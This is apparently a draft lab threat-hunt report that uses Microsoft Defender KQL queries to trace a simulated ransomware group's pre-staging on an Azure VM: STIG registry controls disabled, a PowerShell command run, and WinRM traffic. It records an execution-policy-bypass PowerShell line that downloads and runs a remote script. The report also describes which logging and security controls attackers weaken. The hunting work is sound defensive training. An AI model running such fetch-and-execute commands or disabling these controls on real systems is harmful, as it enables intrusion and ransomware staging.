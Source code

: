 ![image](https://github.com/user-attachments/assets/aae438d1-b51f-4691-b49b-e45fa8b044ad)

# Threat Hunt Report: Crimson Mongoose Ransomware Pre-Staging (((DRAFT))) 
- [Scenario Creation](./threat-hunting-scenario-ransomware-pre-staging-activity-event-creation.md)

---

## Platforms and Languages Leveraged
- Windows 10 Virtual Machine (Microsoft Azure)
- EDR Platform: **Microsoft Defender for Endpoint** (Advanced Hunting)
- Kusto Query Language (KQL)
- PowerShell

---

## Scenario

**Alert source:** Regional CERT flash warning of a new ransomware crew, *Crimson Mongoose*.

**Key intel:** In every confirmed intrusion the actors quickly flip **exactly ten Windows 10 STIG controls** that kill logging (PowerShell, audit), weaken UAC, and enable insecure remote protocols (SMB signing, WinRM HTTP, disable FIPS).  
They then lurk ≤ 24 h before detonating an encryptor.

**Goal:** Detect all ten STIG flips on the single lab VM and escalate **before** the 24-hour fuse expires.

### High-Level IOC Discovery Plan

| Table | IOC Focus |
|-------|-----------|
| `DeviceRegistryEvents` | Any of the ten registry paths/values set to non-compliant data. |
| `DeviceProcessEvents` | `reg.exe`, `Set-ItemProperty`, or `auditpol.exe` commands that performed the flips. |
| `DeviceNetworkEvents` | Unsigned SMB or WinRM HTTP (port 5985) traffic that follows the mis-configs. |

---

## Steps Taken

### 1. Checked `DeviceRegistryEvents` for STIG value changes

Simple sweep for any key containing the PowerShell, WinRM, SMB, FIPS, or UAC paths with bad values (`0` or `1` depending on control).  
**Query used:**

```kql
DeviceRegistryEvents
| where Timestamp > ago(24h)
| where RegistryKey has_any (
        @"\PowerShell\Transcription",
        @"\PowerShell\ScriptBlockLogging",
        @"\Policies\System",
        @"\LanmanWorkstation",
        @"\LanmanServer",
        @"\WinRM\Client", @"\WinRM\Service",
        @"\FipsAlgorithmPolicy")
| project Timestamp, DeviceName, RegistryKey, RegistryValueName, RegistryValueData
| order by Timestamp desc
```
Findings: All ten non-compliant values appeared between 2025-06-17 18:03–18:05 UTC.

##

### 2. Checked DeviceProcessEvents for who made the changes
Focused on commands containing reg add, Set-ItemProperty, or auditpol.
Query:

```kql
DeviceProcessEvents
| where Timestamp between (datetime(2025-06-17T18:00Z) .. datetime(2025-06-17T18:10Z))
| where ProcessCommandLine has_any ("reg add","Set-ItemProperty","auditpol")
| project Timestamp, FileName, ProcessCommandLine, InitiatingProcessAccountUpn
```

Findings:
Process owner corp\backupsvc executed one-liner PowerShell:
```
powershell.exe -ep Bypass -NoProfile -c "iwr https://raw.githubusercontent.../stig-pre-staging-iocs.ps1 | iex"
```

This matches attacker TTP: pull-and-run script from GitHub, window hidden.

##

### 3. Searched DeviceNetworkEvents for supporting traffic
Hunted for unsigned SMB and WinRM HTTP (5985).

```kql
DeviceNetworkEvents
| where Timestamp > datetime(2025-06-17T18:05Z)
| where (RemotePort == 5985) or (Protocol == "SMB" and SmbIsSigned == false)
| project Timestamp, RemoteIP, RemotePort, InitiatingProcessFileName
```

Findings:
Immediately after registry flips, the host initiated WinRM HTTP to 10.0.0.15 (internal admin box). No SMB signing packets yet, but early WinRM use confirms staging.

Chronological Event Timeline

| Time (UTC) | Event |
|-------|-----------|
|18:03:12|	powershell.exe (hidden) downloaded and executed stig-pre-staging-iocs.ps1.|
|18:03:14–18:05:09|	All ten registry values flipped to non-compliant (DeviceRegistryEvents).|
|18:05:22|	First WinRM HTTP connection to 10.0.0.15:5985 by powershell.exe.|

---

## Summary
The VM showed the full Crimson Mongoose STIG footprint: ten critical controls disabled by account corp\backupsvc via a single remote-downloaded PowerShell command, followed by WinRM traffic.
This matches pre-staging behavior; ransomware detonation would likely follow within the next 24 hours.

---

### Response Taken
MDE action “Isolate device” executed.

---

